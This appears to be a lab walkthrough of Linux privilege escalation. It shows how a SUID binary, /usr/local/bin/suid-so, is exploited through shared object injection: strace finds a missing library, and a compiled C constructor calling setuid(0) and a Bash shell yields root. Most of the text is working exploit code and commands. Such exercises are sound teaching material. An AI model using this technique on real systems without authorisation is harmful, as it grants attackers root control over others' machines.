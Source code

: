 The /usr/local/bin/suid-so SUID executable is vulnerable to shared object injection.

First, execute the file and note that currently it displays a progress bar before exiting:
```
/usr/local/bin/suid-so
```
Run strace on the file and search the output for open/access calls and for "no such file" errors:
```
strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"
```
```
user@debian:~$ strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"
access("/etc/suid-debug", F_OK)         = -1 ENOENT (No such file or directory)
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
access("/etc/ld.so.preload", R_OK)      = -1 ENOENT (No such file or directory)
open("/etc/ld.so.cache", O_RDONLY)      = 3
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
open("/lib/libdl.so.2", O_RDONLY)       = 3
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
open("/usr/lib/libstdc++.so.6", O_RDONLY) = 3
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
open("/lib/libm.so.6", O_RDONLY)        = 3
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
open("/lib/libgcc_s.so.1", O_RDONLY)    = 3
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
open("/lib/libc.so.6", O_RDONLY)        = 3
open("/home/user/.config/libcalc.so", O_RDONLY) = -1 ENOENT (No such file or directory)

```

Note that the executable tries to load the /home/user/.config/libcalc.so shared object within our home directory, but it cannot be found.

Create the .config directory for the libcalc.so file:
```
mkdir /home/user/.config
```
Example shared object code can be found at /home/user/tools/suid/libcalc.c. It simply spawns a Bash shell.
```
user@debian:~$ cat /home/user/tools/suid/libcalc.c
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject() {
	setuid(0);
	system("/bin/bash -p");
}

```
Compile the code into a shared object at the location the suid-so executable was looking for it:
```
gcc -shared -fPIC -o /home/user/.config/libcalc.so /home/user/tools/suid/libcalc.c
```
Execute the suid-so executable again, and note that this time, instead of a progress bar, we get a root shell.
```
/usr/local/bin/suid-so
```

